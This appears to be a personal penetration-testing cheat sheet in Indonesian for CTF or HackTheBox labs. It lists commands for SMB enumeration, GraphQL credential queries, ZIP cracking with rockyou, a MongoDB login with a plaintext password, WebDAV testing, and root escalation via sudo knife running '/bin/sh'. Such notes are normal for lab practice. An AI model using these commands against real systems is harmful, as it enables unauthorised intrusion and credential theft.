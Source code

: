 # get flag windows / linux

di linux cat ./flag.txt
di windows type flag.txt

# knife ruby

karna sudo -l bisa sudo nopasswd, tinggal eskalasi ke root aja via knife
cara exec code ruby:

    sudo /usr/bin/knife exec /tmp/exp.rb 

code exp.rb isinya adalah:

    system "/bin/sh" 

# SMBMAP

    smbmap -H 10.10.10.3

# SMBCLIENT

    smbclient -N //10.10.10.3/tmp

# windows hidden file
    
    ls -force

or 

    gci -force

# Graphql

query graphql: 

    http://10.10.10.121:3000/graphql?query={user{username,password}}

# fcrackzip

cracking zip

    fcrackzip -u -v -D -p ../../tools/wordlist/rockyou.txt data.zip

# Mongodb

login with user pass mongodb

    mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k

# webdav cek

    davtest -url 10.10.10.15

# creating local web server PHP

    sudo php -S 10.10.14.22:84  

# creating local web server python

    python3 -m http.server